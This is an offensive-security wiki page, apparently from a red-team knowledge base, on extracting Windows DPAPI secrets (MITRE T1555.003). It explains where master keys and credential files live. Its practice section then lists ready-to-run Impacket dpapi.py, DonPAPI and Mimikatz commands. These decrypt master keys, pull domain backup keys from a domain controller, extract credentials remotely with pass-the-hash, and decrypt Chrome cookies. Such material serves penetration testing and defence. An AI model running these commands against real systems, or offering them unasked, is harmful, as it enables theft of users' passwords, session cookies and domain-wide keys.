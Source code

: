 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1555.003
authors: Hackndo, ShutdownRepo, sckdev
---
```


# DPAPI secrets

## Theory

The DPAPI (Data Protection API) is an internal component in the Windows system. It allows various applications to store sensitive data (e.g. passwords). The data are stored in the users directory and are secured by user-specific master keys derived from the users password. They are usually located at:

```batch
C:\Users\$USER\AppData\Roaming\Microsoft\Protect\$SUID\$GUID
```

Application like Google Chrome, Outlook, Internet Explorer, Skype use the DPAPI. Windows also uses that API for sensitive information like Wi-Fi passwords, certificates, RDP connection passwords, and many more.

Below are common paths of hidden files that usually contain DPAPI-protected data.

```batch
C:\Users\$USER\AppData\Local\Microsoft\Credentials\
C:\Users\$USER\AppData\Roaming\Microsoft\Credentials\
```

## Practice

::: tabs

=== UNIX-like

From UNIX-like systems, DPAPI-data can be manipulated (mainly offline) with tools like [dpapick](https://github.com/jordanbtucker/dpapick) (Python), [dpapilab](https://github.com/dfirfpi/dpapilab) (Python), [Impacket](https://github.com/SecureAuthCorp/impacket)'s [dpapi.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/dpapi.py) and [secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) (Python).

```bash
# (not tested) Decrypt a master key
dpapi.py masterkey -file "/path/to/masterkey_file" -sid $USER_SID -password $MASTERKEY_PASSWORD

# (not tested) Obtain the backup keys & use it to decrypt a master key
dpapi.py backupkeys -t $DOMAIN/$USER:$PASSWORD@$TARGET
dpapi.py masterkey -file "/path/to/masterkey_file" -pvk "/path/to/backup_key.pvk"

# (not tested) Decrypt DPAPI-protected data using a master key
dpapi.py credential -file "/path/to/protected_file" -key $MASTERKEY
```

[DonPAPI](https://github.com/login-securite/DonPAPI) (Python) can also be used to remotely extract a user's DPAPI secrets more easily. It supports [pass-the-hash](../../ntlm/pth.md), [pass-the-ticket](../../kerberos/ptt.md) and so on.

```bash
DonPAPI.py 'domain'/'username':'password'@<'targetName' or 'address/mask'>
```


=== Windows

On Windows systems [Mimikatz](https://github.com/gentilkiwi/mimikatz) (C) can be used to extract dpapi with [`lsadump::backupkeys`](https://tools.thehacker.recipes/mimikatz/modules/lsadump/backupkeys), decrypt with [`dpapi::chrome`](https://tools.thehacker.recipes/mimikatz/modules/dpapi/chrome) and [`dpapi::cred`](https://tools.thehacker.recipes/mimikatz/modules/dpapi/cred) or use specific master keys with [`dpapi::masterkey`](https://tools.thehacker.recipes/mimikatz/modules/dpapi/masterkey) and [`sekurlsa::dpapi`](https://tools.thehacker.recipes/mimikatz/modules/sekurlsa/dpapi) , using specified passwords or given sufficient privileges.

```bash
# Extract and decrypt a master key
dpapi::masterkey /in:"C:\Users\$USER\AppData\Roaming\Microsoft\Protect\$SUID\$GUID" /sid:$SID /password:$PASSWORD /protected

# Extract and decrypt all master keys
sekurlsa::dpapi

# Extract the backup keys & use it to decrypt a master key
lsadump::backupkeys /system:$DOMAIN_CONTROLLER /export
dpapi::masterkey /in:"C:\Users\$USER\AppData\Roaming\Microsoft\Protect\$SUID\$GUID" /pvk:$BACKUP_KEY_EXPORT_PVK

# Decrypt Chrome data
dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Cookies"

# Decrypt DPAPI-protected data using a master key
dpapi::cred /in:"C:\path\to\encrypted\file" /masterkey:$MASTERKEY
```

:::


## Resources

[https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/dpapi-extracting-passwords](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/dpapi-extracting-passwords)

[https://www.synacktiv.com/ressources/univershell_2017_dpapi.pdf](https://www.synacktiv.com/ressources/univershell_2017_dpapi.pdf)
